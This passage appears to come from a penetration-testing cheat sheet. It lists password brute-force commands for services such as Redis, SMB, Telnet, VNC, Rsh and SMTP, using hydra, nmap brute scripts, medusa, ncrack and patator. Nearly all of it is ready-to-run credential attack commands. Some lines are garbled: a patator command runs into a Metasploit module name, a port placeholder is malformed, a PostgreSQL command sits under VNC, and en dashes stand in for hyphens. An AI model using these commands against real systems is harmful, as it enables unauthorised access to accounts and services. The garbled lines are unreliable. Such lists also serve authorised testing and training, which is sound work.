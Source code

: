 	cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>

### Redis

	nmap --script redis-brute -p 6379 <IP>

	hydra –P /path/pass.txt <IP> redis

### Rexec

	hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V

### Rlogin

	hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V

### Rsh

	hydra -L <Username_list> rsh://<Victim_IP> -v -V

[http://pentestmonkey.net/tools/misc/rsh-grind​](http://pentestmonkey.net/tools/misc/rsh-grind%E2%80%8B)

### Rsync

	nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>

### RTSP

	hydra -l root -P passwords.txt <IP> rtsp

### SMB

	nmap --script smb-brute -p 445 <IP>

	hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1

### Telnet

	hydra -l root -P passwords.txt [-t 32] <IP> telnet
	
	ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
	
	medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet

### VNC

	hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
	
	medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc
	
	ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T
	
	patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
	
	nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>

### SMTP

	hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V